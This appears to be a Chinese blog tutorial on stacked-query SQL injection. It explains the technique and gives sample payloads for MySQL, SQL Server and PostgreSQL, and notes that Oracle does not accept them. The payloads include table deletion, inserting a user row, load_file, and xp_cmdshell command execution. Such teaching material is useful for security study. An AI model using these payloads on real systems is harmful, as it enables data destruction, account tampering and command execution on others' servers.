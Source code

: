 ```yaml
---
layout: post
title:  "SQL注入之堆叠查询注入"
date:   2018-11-28 20:15:33 +0700
categories: [Web安全, SQL注入]
---
```


lcamry	2016-08-04 原文地址;http://www.sqlinjection.net/stacked-queries/   本篇属于集合原作者的思路和个人想法结合的一篇产物。Stacked injection 汉语翻译过来后，国内有的称为堆查询注入，也有称之为堆叠注入。个人认为称之为堆叠注入更为准确。堆叠注入为攻击者提供了很多的攻击手段，通过添加一个新 的查询或者终止查询，可以达到修改数据和调用存储过程的目的。这种技术在SQL注入中还是比较频繁的。

## 0x01 原理介绍

在SQL中，分号（;）是用来表示一条sql语句的结束。试想一下我们在 ; 结束一个sql语句后继续构造下一条语句，会不会一起执行？因此这个想法也就造就了堆叠注入。而union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别么？区别就在于union 或者union all执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。例如以下这个例子。用户输入：1; DELETE FROM products服务器端生成的sql语句为：（因未对输入的参数进行过滤）Select * from products where productid=1;DELETE FROM products当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。

## 0x02 堆叠注入的局限性

堆叠注入的局限性在于并不是每一个环境下都可以执行，可能受到API或者数据库引擎不支持的限制，当然了权限不足也可以解释为什么攻击者无法修改数据或者调用一些程序。

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMi5wbmdAYmFzZUB0YWc9aW1nU2NhbGUmYW1wO3c9MTAwMA==.jpg)

Ps：此图是从原文中截取过来的，因为我个人的测试环境是php+mysql，是可以执行的，此处对于mysql/php存在质疑。但个人估计原文作者可能与我的版本的不同的原因。虽然我们前面提到了堆叠查询可以执行任意的sql语句，但是这种注入方式并不是十分的完美的。在我们的web系统中，因为代码通常只返回一个查询结果，因此，堆叠注入第二个语句产生错误或者结果只能被忽略，我们在前端界面是无法看到返回结果的。因此，在读取数据时，我们建议使用union（联合）注入。同时在使用堆叠注入之前，我们也是需要知道一些数据库相关信息的，例如表名，列名等信息。

## 0x03 各个数据库实例介绍

本节我们从常用数据库角度出发，介绍几个类型的数据库的相关用法。数据库的基本操作，增删查改。以下列出数据库相关堆叠注入的基本操作。

### 一. Mysql

1.	新建一个表 select * from users where id=1;create table test like users;

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfNC5wbmdAYmFzZUB0YWc9aW1nU2NhbGUmYW1wO3c9MTAwMA==.jpg)

执行成功，我们再去看一下是否新建成功表。

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfNS5wbmdAYmFzZUB0YWc9aW1nU2NhbGUmYW1wO3c9MTAwMA==.jpg)

2. 删除上面新建的test表select * from users where id=1;drop table test;

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfNy5wbmdAYmFzZUB0YWc9aW1nU2NhbGUmYW1wO3c9MTAwMA==.jpg)

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfOC5wbmdAYmFzZUB0YWc9aW1nU2NhbGUmYW1wO3c9MTAwMA==.jpg)

3. 查询数据select * from users where id=1;select 1,2,3;

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfOS5wbmdAYmFzZUB0YWc9aW1nU2NhbGUmYW1wO3c9MTAwMA==.jpg)

加载文件  select * from users where id=1;select load_file('c:/tmpupbbn.php');

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMTAucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

4. 修改数据select * from users where id=1;insert into users(id,username,password)

values('100','new','new');

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMTEucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMTIucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

### 二. Sql server

1. 增加数据表select * from test;create table sc3(ss CHAR(8));

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMjAucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

2. 删除数据表select * from test;drop table sc3;

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMjIucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

3.	查询数据select 1,2,3;select * from test;

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMTkucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

4. 修改数据select * from test;update test set name='test' where id=3;

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMjMucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMjQucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

5. sqlserver中最为重要的存储过程的执行

select * from test where id=1;exec master..xp_cmdshell 'ipconfig'

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMjUucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

### 三. Oracle

上面的介绍中我们已经提及，oracle不能使用堆叠注入，可以从图中看到，当有两条语句在同一行时，直接报错。无效字符。后面的就不往下继续尝试了。

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMy5wbmdAYmFzZUB0YWc9aW1nU2NhbGUmYW1wO3c9MTAwMA==.jpg)

### 四. Postgresql

1. 新建一个表    select * from user_test;create table user_data(id DATE);

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfNi5wbmdAYmFzZUB0YWc9aW1nU2NhbGUmYW1wO3c9MTAwMA==.jpg)

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMTMucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

可以看到user_data表已经建好。

2. 删除上面新建的user_data表select * from user_test;delete from user_data;

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMTUucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

3. 查询数据select * from user_test;select 1,2,3;

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMTYucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

4. 修改数据 select * from user_test;update user_test set name='modify' where name='张三';



![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMTgucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)